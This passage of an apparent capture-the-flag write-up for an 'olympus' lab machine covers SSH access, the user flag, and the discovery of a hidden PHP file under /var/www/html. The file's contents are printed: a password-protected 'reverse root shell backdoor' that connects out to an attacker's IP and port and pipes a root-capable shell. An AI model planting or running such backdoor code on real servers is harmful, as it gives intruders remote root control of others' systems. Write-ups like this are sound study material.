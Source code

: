 We got it, let's go into ssh now:

![](cybersecurity/images/Pasted%2520image%252020250501145659.png)

We can now read second flag:

```
zeus@olympus:~$ cat user.flag
flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
```

If we go to `/var/www/html`, we can notice this:

```
zeus@olympus:/var/www/html$ ls -la
total 28
drwxr-xr-x 3 www-data www-data  4096 May  1  2022 .
drwxr-xr-x 5 root     root      4096 Mar 22  2022 ..
drwxrwx--x 2 root     zeus      4096 Jul 15  2022 0aB44fdS3eDnLkpsz3deGv8TttR4sc
-rwxr-xr-x 1 root     root     10988 Apr 18  2022 index.html.old
-rwxr-xr-x 1 root     root        57 Apr 18  2022 index.php
```

We got a weird directory:

```
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ ls -la
total 12
drwxrwx--x 2 root     zeus     4096 Jul 15  2022 .
drwxr-xr-x 3 www-data www-data 4096 May  1  2022 ..
-rwxr-xr-x 1 root     zeus        0 Apr 14  2022 index.html
-rwxr-xr-x 1 root     zeus     1589 Jul 15  2022 VIGQFQFMYOST.php
```

Let's read the file:

```php
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ cat VIGQFQFMYOST.php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);
```
